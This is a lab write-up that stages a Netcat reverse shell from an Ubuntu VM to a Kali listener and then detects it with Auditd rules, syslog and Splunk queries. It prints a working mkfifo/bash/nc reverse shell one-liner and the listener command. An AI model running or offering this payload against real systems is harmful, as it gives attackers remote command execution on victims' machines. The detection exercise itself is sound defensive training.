# Netcat Reverse Shell Attack 

---

## How Does a Netcat Reverse Shell Work?

A **reverse shell** flips the usual connection direction. Instead of an attacker connecting *into* the victim (which firewalls block), the **victim machine connects outward to the attacker**.


**Step-by-step flow:**

1. Attacker opens a listener: `nc -lvnp 4444`
2. Victim executes a payload that pipes `/bin/bash` through Netcat back to the attacker
3. Attacker receives a live bash shell — full command execution on the victim
4. The connection looks like normal outbound traffic, making it stealthy

**no inbound firewall rule is needed** because the victim initiates the connection.

---

## Lab Environment

| Machine        | Role                     | IP Address    |
| -------------- | ------------------------ | ------------- |
| Kali Linux     | Attacker                 | 10.78.39.184  |
| Ubuntu VM      | Victim                   | 10.78.39.240  |
| Windows Server | Splunk Enterprise Server | 10.78.39.55   |

---

## Objective

- Simulate a Netcat reverse shell attack from Ubuntu → Kali
- Capture process and network activity using Auditd
- Forward logs to Splunk via Universal Forwarder
- Detect attacker IP, suspicious port, and shell activity in Splunk

---

### Windows Server IP Verification


- `ipconfig` output on the Windows Server (Splunk host)
- IPv4 Address confirmed as **10.78.39.55**
- This machine will act as the Splunk Enterprise receiver

Confirms the Splunk server target IP before configuring the forwarder on Ubuntu.

---

### Ubuntu Victim IP Verification



- `ifconfig` output on the Ubuntu (victim) machine
- Interface `enp0s3` shows IPv4 **10.78.39.240**

Confirms the victim machine's IP. This IP will appear in reverse shell connection logs, helping us correlate logs in Splunk.

---

### Kali Attacker IP Verification



- `ip a` output on Kali Linux
- Interface `eth0` shows IPv4 **10.78.39.184**

This is the **attacker IP**. The victim's shell will call back to this address. Knowing this IP helps build targeted Splunk detection queries.

---

### Installing Netcat on Ubuntu



**Commands run:**
```bash
sudo apt update
sudo apt install netcat-openbsd -y
```

- Package lists updated successfully
- `netcat-openbsd` already at newest version (1.226-1ubuntu2) — installed and ready
  
Netcat must be present on the victim for the reverse shell payload to execute. `netcat-openbsd` is the standard variant on Ubuntu.

---

### Kali Starts Listener on Port 4444



**Command run on Kali:**
```bash
nc -lvnp 4444
```

| Flag | Meaning            |
|------|--------------------|
| `-l` | Listen mode        |
| `-v` | Verbose output     |
| `-n` | No DNS resolution  |
| `-p 4444` | Port to listen on |


- Kali is now passively waiting: `listening on [any] 4444 ...`

The attacker is ready. The moment Ubuntu executes the payload, this listener catches the incoming shell.

---

### Executing Reverse Shell Payload on Ubuntu



**Commands run on Ubuntu:**
```bash
rm -f /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc 10.78.39.184 4444 > /tmp/f
```

- All three commands typed into the Ubuntu terminal
- The terminal appears to hang — this is the shell actively connecting back to Kali

This is the attack payload. It creates a named pipe (`/tmp/f`) that connects bash stdin/stdout to a Netcat connection pointing at the attacker's IP and port.

---

### Reverse Shell Successfully Established on Kali



**What we see on Kali:**
```
connect to [10.78.39.184] from (UNKNOWN) [10.78.39.240] 44584
```
- Commands executed **on the victim from the attacker terminal**:
  - `whoami` → `vamsi` (victim user)
  - `ls` → victim's home directory contents (Desktop, Downloads, etc.)
  - `pwd` → `/home/vamsi`
  - `hostname` → `vamsi-VirtualBox`
  - `ip a` → confirms victim IP 10.78.39.240
Full remote code execution achieved. The attacker now has an interactive bash shell on the victim — without ever having credentials.

---

###  Active Connection Confirmed via netstat



**Command run on Ubuntu:**
```bash
netstat -antp | grep 4444
```

**What we see:**
```
tcp  0  0  10.78.39.240:44584  10.78.39.184:4444  ESTABLISHED  4815/nc
```

| Field             | Value            | Meaning                    |
|-------------------|------------------|----------------------------|
| Local Address     | 10.78.39.240     | Victim IP                  |
| Foreign Address   | 10.78.39.184:4444 | Attacker IP + Port        |
| State             | ESTABLISHED      | Active connection          |
| Process           | nc (PID 4815)    | Netcat running on victim   |

Proves the reverse shell is live. This ESTABLISHED entry is exactly what Splunk will detect.

---

### Auditd Installed and Running



**Commands run:**
```bash
sudo apt install auditd audispd-plugins -y
sudo systemctl enable auditd
sudo systemctl start auditd
sudo systemctl status auditd
```

- `auditd` version 1:3.1.2-2.1build1 installed (amd64)
- Service status: **active (running)**
- Started: Mon 2026-05-11 15:27:06 IST
- Augenrules loaded with PID 6048

Auditd is the Linux kernel audit framework. It will now record every process execution — including Netcat and Bash spawning — to `/var/log/audit/audit.log`.

---

### Audit Rules for Netcat and Bash



**Commands run:**
```bash
sudo auditctl -w /usr/bin/nc -p x -k netcat_activity
sudo auditctl -w /bin/bash -p x -k bash_activity
sudo auditctl -l
```

- Two rules confirmed active:
  - `-w /usr/bin/nc -p x -k netcat_activity`
  - `-w /bin/bash -p x -k bash_activity`

| Part | Meaning                                  |
|------|------------------------------------------|
| `-w` | Watch this file path                     |
| `-p x` | Trigger on **execute** events          |
| `-k` | Tag log entries with this keyword        |

Every time `nc` or `bash` is executed, Auditd creates a log entry tagged with `netcat_activity` or `bash_activity`. These keywords become powerful search filters in Splunk.

---

### Syslog Capturing Live Shell Activity



**Commands run to push connection info into syslog:**
```bash
ps aux | grep nc | logger
ps aux | grep bash | logger
ss -antp | grep 4444 | logger
sudo tail -f /var/log/syslog
```

- `nc 10.78.39.184 4444` — Netcat process with attacker IP visible
- `/bin/bash -i` — interactive bash spawned (reverse shell indicator)
- `ESTAB 0 0 10.78.39.240:48234 10.78.39.184:4444 users:(("nc",pid=7051,fd=3))` — live ESTABLISHED connection logged

Using `logger` pushes network and process state directly into syslog, which Splunk monitors. This creates a **human-readable, searchable record** of the active attack.

---

### Syslog ESTAB Entry Confirmed



```
2026-05-11T16:15:40 vamsi-VirtualBox vamsi: ESTAB  0  0
    10.78.39.240:48234  10.78.39.184:4444  users:(("nc",pid=7051,fd=3))
```

- The ESTABLISHED connection to the attacker (`10.78.39.184:4444`) is recorded in syslog
- The `nc` process with PID 7051 is clearly identified

This syslog entry is the critical evidence. It shows the victim actively connected to the attacker's IP on port 4444 via Netcat — forwarded to Splunk in real time.

---

### Splunk Receiving Logs from Ubuntu



**Splunk query:**
```spl
index="main"
```

- **23,278 events** ingested from Ubuntu over the last 24 hours
- Sources visible: `/var/log/syslog`, `/var/log/audit/audit.log`, `/var/log/auth.log`
- Sourcetypes: `syslog`, `linux_audit`, `auth`
- Sample events include Auditd entries with `type=USER_END`, `type=CRED_DISP`, `type=USER_START`

Confirms the Splunk Universal Forwarder is working and all three key log sources are streaming to Splunk. The detection pipeline is fully operational.

---

### Splunk Detects Attacker IP



**Splunk query:**
```spl
index=* "10.78.39.184"
```

- **6 events** containing the attacker's IP
- ESTAB entries showing `10.78.39.240:48234 → 10.78.39.184:4444`
- A manually logged entry: *"Reverse shell connection initiated to 10.78.39.184 on port 4444 using nc"*
- `nc` process with PID 7051 visible across multiple entries
  
A SOC analyst searching for a suspicious external IP instantly finds all related events — connection records, process info, and timestamps — pivoting on the attacker's IP alone.

---

### Splunk Detects Reverse Shell Port 4444



**Splunk query:**
```spl
index=* "4444"
```

- **6 events** matching port 4444
- Port 4444 highlighted in each event
- Same ESTAB entries confirming the Netcat connection

Port 4444 is a commonly abused reverse shell port. Alerting on this port alone would catch this attack. This query demonstrates port-based threat hunting in Splunk.

---

### Splunk Correlates nc Process and PID



**Splunk query:**
```spl
index=* "nc" "pid=7051"
```

**What we see:**
- **3 events** linking `nc` process to PID 7051
- All three show ESTABLISHED connections from victim to attacker
- Source: `/var/log/syslog` — confirms syslog pipeline working

Correlating the process name (`nc`) with a specific PID allows tracking the exact reverse shell process lifecycle — when it started, how long it persisted, and what connections it made.

---

### Splunk Detects Bash Execution via Auditd



**Splunk query:**
```spl
index=* "bash"
```

- **41 events** containing bash activity
- `type=PROCTITLE` with `proctitle="bash"` — process title captured
- `type=EXECVE` with `a0="bash"` and `a0="/bin/bash" a1="-i"` — interactive bash spawned
- `type=SYSCALL` with `key="bash_activity"` — our Auditd rule triggered
- `exe="/usr/bin/bash"`, `comm="bash"`, `subj=unconfined` — full process metadata

The `-i` flag on `/bin/bash` is a strong indicator of a reverse shell. Auditd captured the exact syscall (execve), user context, and our custom key `bash_activity` — providing forensic-grade evidence of shell execution.

---

